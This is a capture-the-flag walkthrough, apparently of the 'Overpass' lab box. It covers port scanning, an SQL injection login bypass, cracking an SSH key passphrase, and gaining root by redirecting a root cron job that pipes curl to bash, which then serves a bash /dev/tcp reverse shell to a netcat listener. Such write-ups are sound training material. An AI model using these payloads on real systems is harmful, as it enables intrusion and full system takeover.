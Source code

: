 # Overpass

## 1. Recon

### 1.1 Port Scanning
```
❯ nmap -sC -sV -A BOX_IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-02 22:56 EST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.58% done; ETC: 22:56 (0:00:23 remaining)
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 66.33% done; ETC: 22:57 (0:00:20 remaining)
Nmap scan report for BOX_IP
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.19 seconds
```

PS: you can run this with `--script=vuln`, and that works too. But, it took this amount of time:
`Nmap done: 1 IP address (1 host up) scanned in 1216.13 seconds`. So maybe not a good idea. 


### 1.2 Web Enumeration
```
❯ gobuster dir -u BOX_IP -w "/usr/share/wordlists/rockyou.txt" -x "html,php,txt"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://BOX_IP
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2021/02/02 23:06:26 Starting gobuster
===============================================================
/index.html (Status: 301)
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/admin.html (Status: 200)
/css (Status: 301)
Progress: 1322 / 220561 (0.60%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/02/02 23:12:32 Finished
===============================================================
```

### 1.3 SQLI
hmmm. admin look interesting. Using `/admin.html` gives us a login page.

lets try a basic sql injection: `69 OR 1=1`

...

works!

okay so name of the person is james and ... we have the ssh private key printed out lmao.

## 2. Foothold

 lets try:

`❯ ssh -i key james@BOX_IP`

- key: the rsa key
- james: the username
- BOX_IP: IP address of the box.

password protected ;-; ok so lets take that key and convert it into a better format.

`python ssh2john.py id_rsa > id_rsa.hash`

time to bruteforce!

```
❯ john hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
*******          (key)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2021-02-02 23:49) 0.1385g/s 1986Kp/s 1986Kc/s 1986KC/sa6_123..*7¡Vamos!
Session completed
```
key hidden :)

```
❯ ssh -i key james@BOX_IP
Enter passphrase for key 'key': 
```
I'm in!

## 3. PrivEsc
```
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

ok so lets copy linpeas to find any issues:

`❯ scp -i path/to/key /path/to/linpeas.sh james@BOX_IP:/destination/path`


now, 
```
james@overpass-prod:~$ chmod +x linpeas.sh 
james@overpass-prod:~$ ./linpeas.sh 
```

hmm. so we have `/etc/hosts` available to edit
```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.1.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

and since there's some talk about automated build scipts, we should go look at cron.
```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

ah yeas. look at the last one. it runs every minute, as root. only if we could change the hosting location of `overpass.thm` ... oh wait


so lets edit `/etc/hosts`'s `overpass.thm` to our own ip, and setup a python server using:
```
❯ sudo python3 -m http.server 80
[sudo] password for tanishq: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

note the port 80 since that curl is going to look in the default port. Now, wherever you started this server, from this location onwards, we need to have this exact structure `/downloads/src/buildscript.sh`, so

- `❯ mkdir downloads`
- `❯ cd downloads`
- `❯ mkdir src`
- `❯ cd src`
- `❯ echo "bash -i >& /dev/tcp/MY_IP/4242 0>&1" > buildscript.sh`

this lets us pretend to be a server, serving that `buildscript.sh` file :)

we are telling the sever to send us a tcp connection to our own ip on the port `4242`.

Meanwhile, setup netcat using:

`❯ nc -nlvp 4242`

- -l: listen mode, for inbound connects
- -n: numeric-only IP addresses, no DNS
- -v: verbose [use twice to be more verbose]
- -p port: local port number

and we are all in!

